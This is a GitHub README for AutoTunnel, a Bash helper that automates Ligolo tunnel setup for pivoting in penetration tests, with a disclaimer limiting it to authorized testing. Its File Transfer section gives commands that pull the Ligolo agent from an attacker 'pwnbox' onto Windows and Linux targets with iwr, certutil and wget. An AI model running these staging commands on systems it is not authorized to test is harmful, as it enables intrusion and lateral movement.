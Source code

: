 
# AutoTunnel

AutoTunnel is an automated script for setting up Ligolo tunnels, streamlining network pivoting during red team engagements and penetration tests. The script performs interface setup, IP routing, and launches a Python server for easy file transfer to target machines.

## Features
- Automates Ligolo tunnel setup.
- Checks and configures network interfaces.
- Deletes previous tunnel routes before adding new ones.
- Allows selection of the listening network interface.
- Starts a Python HTTP server for file transfers.
- Provides easy commands for transferring and running Ligolo agents on targets.
- Kills processes using port 65000 before starting the server.
- Automatically installs missing dependencies on the first run.

## Requirements
- Bash
- Ligolo Proxy & Agent
- lolcat (optional, for colored output)
- figlet (optional, for banner text)
- Python (for HTTP server)
- lsof (for checking port usage)

## Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/johniwasanmi/AutoTunnel.git
   cd AutoTunnel
   chmod +x AutoTunnel.sh
   ```
2. Install Dependencies If not already installed
   ```bash
   sudo apt update && sudo apt install figlet lolcat lsof
   ```
3. The script will automatically check for missing dependencies and install them on the first run.

## Usage
Run the script with:
```bash
./AutoTunnel.sh
```

If any required dependencies are missing, the script will install them before execution.

Follow the on-screen prompts to set up the Ligolo tunnel.

## File Transfer
The script automatically starts an HTTP server on port 65000, allowing easy transfer of the Ligolo agent:

For Windows target:
```powershell
iwr -uri http://<pwnbox_ip>:65000/ligolo_agent.exe -outfile ligolo.exe
```
Or using certutil:
```cmd
certutil.exe -f -urlcache -split "http://<pwnbox_ip>:65000/ligolo_agent.exe"
```

For Linux target:
```bash
wget http://<pwnbox_ip>:65000/ligolo_agent
```



## Notes
- Ensure you have sufficient permissions to modify network routes.




## Author
(PenDevOps)

## Disclaimer
This tool is for educational and authorized security testing purposes only. Misuse of this tool may result in legal consequences. The author is not responsible for any misuse or damage caused.

source from https://github.com/nicocha30/ligolo-ng
